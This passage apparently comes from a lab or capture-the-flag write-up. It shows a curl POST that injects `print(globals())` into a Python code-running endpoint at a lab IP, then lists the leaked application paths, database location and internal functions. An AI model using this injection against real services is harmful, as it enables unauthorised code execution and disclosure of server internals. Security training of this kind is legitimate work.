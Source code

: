 While exploring and experimenting, I thought of using `globals()`, Python's built-in function that returns the dictionary implementing the current module namespace. By calling the function through a `print` statement, we saw that we obtained valuable information that we could use.

![image_2025-03-25T15-34-17Z.png](i/image_2025-03-25T15-34-17Z.png)

`curl` command:
`curl --path-as-is -i -s -k -X $'POST' \
    -H $'Host: 10.129.238.121:5000' -H $'Content-Length: 21' -H $'X-Requested-With: XMLHttpRequest' -H $'Accept-Language: en-US,en;q=0.9' -H $'Accept: */*' -H $'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36' -H $'Origin: http://10.129.238.121:5000' -H $'Referer: http://10.129.238.121:5000/' -H $'Accept-Encoding: gzip, deflate, br' -H $'Connection: keep-alive' \
    --data-binary $'code=print(globals())' \
    $'http://10.129.238.121:5000/run_code'`

The most valuable information that we noted was the following:

```json
origin='/home/app-production/app/app.py
'db': <SQLAlchemy sqlite:////home/app-production/app/instance/database.db>, 'User': <class 'app.User'>, 'Code': <class 'app.Code'>
'run_code': <function run_code at 0x7fa202956e50>, 'load_code': <function load_code at 0x7fa2027d1040>, 'save_code': <function save_code at 0x7fa2027d11f0\, 'codes': <function codes at 0x7fa2027d13a0>
```
